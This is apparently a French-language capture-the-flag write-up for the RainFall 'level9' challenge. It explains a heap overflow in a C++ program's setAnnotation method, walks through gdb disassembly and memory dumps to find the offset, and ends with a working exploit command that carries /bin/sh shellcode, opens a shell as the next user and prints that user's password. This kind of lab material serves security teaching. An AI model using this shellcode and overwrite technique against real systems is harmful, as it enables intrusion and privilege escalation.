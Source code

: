 # level 9
Voici une explication détaillée de chacune des parties du programme C++:

## Fonction main
La fonction principale du programme commence par vérifier si au moins un argument a été passé en ligne de commande (en excluant le nom du programme lui-même). Si ce n'est pas le cas, elle appelle _exit(1).

## Allocation et Initialisation des Objets N
Deux objets de type N sont créés et initialisés :

- Premier objet initialisé avec une valeur de 5.
- Deuxième objet initialisé avec une valeur de 6.

Après leur création, la fonction setAnnotation est appelée sur le premier objet this en passant le premier argument de ligne de commande (argv[1]).

Cette méthode copie une chaîne de caractères dans l'objet, en commençant juste après le début de l'objet (à l'adresse this + 4). La longueur de la chaîne est déterminée par strlen, et il n'y a aucune vérification pour prévenir un dépassement de la taille allouée pour l'objet, ce qui représente une vulnérabilité de débordement de tampon.

Ensuite, il y a un appel indirect de fonction via le deuxième objet this_00, qui semble utiliser un pointeur de fonction stocké dans ou avec l'objet.

## Detail de l'exploit

La vulnérabilité ici est l'utilisation non sécurisée de memcpy dans setAnnotation.
Nous allons mettre un breakpoint apres setAnnotation dans gdb et utiliser un script python qui ecris "aaaabbbb....YYYYZZZZ" dans la sortie. Ce qui nous permettra de voir ou nous pourrons ecraser les adresses de retour, et reorienter le code.

```
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax <-------------------------------------------
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
```

```
Starting program: /home/user/level9/level9 $(python /tmp/script.py)

Breakpoint 1, 0x0804867c in main ()
(gdb) i r
eax            0x804a00c        134520844
ecx            0x5a5a5a5a       1515870810
edx            0x804a0dc        134521052
ebx            0x804a078        134520952
esp            0xbffff640       0xbffff640
ebp            0xbffff668       0xbffff668
esi            0x0      0
edi            0x0      0
eip            0x804867c        0x804867c <main+136>
eflags         0x200283 [ CF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51

(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) i r
eax            0x42424242       1111638594
ecx            0x5a5a5a5a       1515870810
```

```
./level9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
level9@RainFall:~$ dmesg | grep segfault
[52806.555838] level9[11797]: segfault at 62626262 ip 08048682 sp bffff650 error 4 in level9[8048000+1000]
```

Le programme segfault a l'adresse 62626262 (bbbb), l'offset est donc de 128.
Nous n'avons plus qu'a trouver l'adresse du buffer, injecter notre shellcode, et sauter au debut du buffer.

Testons dans gdb :
```
(gdb) info functions
0x0804870e  N::setAnnotation(char*)

(gdb) disas 0x0804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:     push   %ebp
   0x0804870f <+1>:     mov    %esp,%ebp
   0x08048711 <+3>:     sub    $0x18,%esp
   0x08048714 <+6>:     mov    0xc(%ebp),%eax
   0x08048717 <+9>:     mov    %eax,(%esp)
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    0x8(%ebp),%edx
   0x08048722 <+20>:    add    $0x4,%edx
   0x08048725 <+23>:    mov    %eax,0x8(%esp)
   0x08048729 <+27>:    mov    0xc(%ebp),%eax
   0x0804872c <+30>:    mov    %eax,0x4(%esp)
   0x08048730 <+34>:    mov    %edx,(%esp)
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:    leave                      <=== break ici
   0x08048739 <+43>:    ret

   (gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

   (gdb) x/100x $eax - 100
    0x8049fa8:      0x00000000      0x00000000      0x00000000      0x00000000
    0x8049fb8:      0x00000000      0x00000000      0x00000000      0x00000000
    0x8049fc8:      0x00000000      0x00000000      0x00000000      0x00000000
    0x8049fd8:      0x00000000      0x00000000      0x00000000      0x00000000
    0x8049fe8:      0x00000000      0x00000000      0x00000000      0x00000000
    0x8049ff8:      0x00000000      0x00000000      0x00000000      0x00000071
    0x804a008:      0x08048848      0x41414141      0x42424242      0x43434343  <=== buffer ici
    0x804a018:      0x44444444      0x45454545      0x46464646      0x47474747
    0x804a028:      0x48484848      0x49494949      0x4a4a4a4a      0x4b4b4b4b
    0x804a038:      0x4c4c4c4c      0x4d4d4d4d      0x4e4e4e4e      0x4f4f4f4f
    0x804a048:      0x50505050      0x51515151      0x52525252      0x53535353
    0x804a058:      0x54545454      0x55555555      0x56565656      0x57575757
    0x804a068:      0x58585858      0x59595959      0x5a5a5a5a      0x61616161
```

```
level9@RainFall:~$ /home/user/level9/level9 $(python -c 'print("\x90" * 30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A" * (108 - 30 - 24) + "\x18\xa0\x04\x08")')
Segmentation fault (core dumped)

[54510.788758] level9[11928]: segfault at 90909090 ip 90909090 sp bffff67c error 14
```

Le programme tombe dans le nopsled, mais segfault a nouveau, nous allons a l'adresse du segfault, donner l'adresse du shellcode a nouveau pour resauter une nouvelle fois dedans.

Apres tests et alignements :

```
level9@RainFall:~$ /home/user/level9/level9 $(python -c 'print("\x18\xa0\x04\x08" + "\x90" * 26 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A" * (108 - 30 - 24) + "\x0c\xa0\x04\x08")')

$ whoami
bonus0

$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

